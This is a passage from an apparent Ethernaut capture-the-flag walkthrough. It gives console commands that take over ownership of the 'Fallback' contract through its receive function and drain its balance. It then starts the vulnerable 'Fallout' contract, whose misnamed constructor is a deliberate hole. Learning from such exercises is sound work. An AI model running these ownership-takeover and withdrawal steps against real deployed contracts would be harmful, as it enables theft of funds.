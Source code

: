 1. Find out the wei of say 0.0001 ether as there is a require of msg.value being < than 0.001 eth:

```
toWei('0.0001') == "100000000000000"
```

2.

```
await contract.contribute.sendTransaction({from:"YOUR ADDRESS", to:"YOUR INSTANCE ADDRESS", value: "100000000000000"})
```

Once we've done the above steps, our balance in the contract is now > 0 which can be checked by

```
await contract.contributions("our address")
```

On the other hand, the contract has a fallback or receive() function which simply transfers ownership to the sender if require(msg.value > 0 && contributions[msg.sender] > 0) is met. So we'll do just that:

3. by just sending a transaction without a function and passing a small msg.value with it:

```
await contract.sendTransaction({from:"YOUR ADDRESS", to:"YOUR INSTANCE ADDRESS", value: "100"})
```

4. contract.owner() will now show your address so you can call withdraw()!

```
await contract.withdraw()
```

which will transfer the balance of eth you've sent which is the only eth on the account back to yourself. In our case, this will be:

0.0001000000000001

The contributions values won't change for the original owner and us because there is no logic in the contract adjusting them

5. Submit Instance!

## Fallout

```
Sources
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
```